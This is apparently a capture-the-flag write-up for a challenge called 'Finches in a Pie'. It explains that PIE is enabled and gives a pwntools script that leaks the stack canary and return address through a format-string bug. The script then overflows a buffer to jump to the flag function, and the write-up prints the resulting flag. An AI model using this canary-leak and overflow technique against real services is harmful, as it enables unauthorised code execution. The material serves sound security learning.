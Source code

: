 # Finches in a Pie

> There's a service at 88.198.219.20:43174, exploit it to get the flag.

## Description

This problem is extremely similar to [Finches in a Stack](FinchesStack.md), except that PIE is enabled. 

## Solution

The exploit is the same, except that we also leak the return address (to `main`), and deduce from it and the constant offset the address of `flag`. 

```python
from pwn import *

sh = remote('88.198.219.20', 52692)

print(sh.recvuntil("name?").decode())

# Leak canary and ret address
offset_canary = 11
offset_ret = 15
payload = "%{}$p %{}$p".format(offset_canary, offset_ret)
sh.sendline(payload)

print(sh.recvuntil("you, ").decode(), end="")
answer = sh.recvuntil("!").decode()
print(answer)
answer = answer.split("!")[0]
canary = int(answer.split(" ")[0], 16)
ret_addr = int(answer.split(" ")[1], 16)

# Overflow
offset_canary = 4*6+1
offset_ret = 3*4
offset_flag = 0x56556209 - 0x565563d9
print(sh.recvuntil("cake?").decode())
payload = b" "*offset_canary + p32(canary) + b" "*offset_ret + p32(ret_addr + offset_flag) + "".join([str(i)*4 for i in range(9)]).encode()

sh.sendline(payload)

sh.interactive()
```

Flag: `ractf{B4k1ng_4_p1E!}`